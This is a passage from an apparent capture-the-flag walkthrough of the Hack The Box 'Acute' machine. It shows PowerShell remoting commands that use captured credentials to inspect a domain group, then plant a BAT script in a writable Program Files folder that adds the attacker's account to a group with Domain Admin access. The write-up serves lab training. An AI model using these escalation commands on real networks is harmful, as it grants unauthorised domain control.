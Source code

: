 ![image-center](/images/htb/htb_acute_groups.png){: .align-center}

Ok, there is a group named **Site_Admin**. Let's check the details of this specific group.

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group Site_Admin /domain} -Credential $Creds
```

![image-center](/images/htb/htb_acute_site_admin.png){: .align-center}

By looking at the description, we can see **This has access to Domain Admin group**. It means that if we add our user to this group, we will get DA privileges.

As we have write privileges on the **C:\Program Files\Keepmeon** folder, we can create a new BAT script with the following command:
- `net group site_admin imonks /add /domain`

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Set-Content -Path 'c:\Program Files\Keepmeon\imonks.bat' -Value 'net group site_admin imonks /add /domain'} -Credential $Creds
``` 
